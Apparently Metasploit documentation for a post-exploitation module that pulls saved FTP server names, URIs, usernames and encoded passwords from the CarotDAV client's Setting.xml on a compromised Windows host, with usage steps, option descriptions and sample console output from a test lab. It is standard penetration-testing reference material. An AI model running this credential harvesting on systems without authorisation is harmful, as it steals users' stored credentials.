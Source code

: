## Vulnerable Application

This post-exploitation module extracts clear text credentials from the CarotDAV ftp Client.

The CarotDAV FTP Client is avaialble from (https://rei.to/carotdav_en.html).

This module extracts information from the Setting file in the "AppData\Roaming\Rei Software\CarotDAV" directory.

This module extracts server information such as connection name, target URI, username and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/carotdav_ftp
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Carotdav's Setting file found
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103946_default_10.0.0.2_CarotDAVSetting._341142.xml

[+] <Name>TheTestBed</Name>
[+] <Name>Aperture Testing Laboratories</Name>
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[+] <UserName>TestBed\TheTester</UserName>
[+] <UserName>TestBed\TheBackupTester</UserName>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103947_default_10.0.0.2_EXTRACTIONSSetti_673514.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```
msf6 post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Carotdav's base folder not found in users's user directory

[*] Starting Packrat...
[*] Carotdav's base folder found
[*] Found the folder containing specified artifact for Setting.
[*] Carotdav's Setting file found
[*] Processing C:\Users\test\AppData\Roaming\Rei Software\CarotDAV
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_CarotDAVSetting._292914.xml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>TheTestBed</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>Aperture Testing Laboratories</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheBackupTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_EXTRACTIONSSetti_754664.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
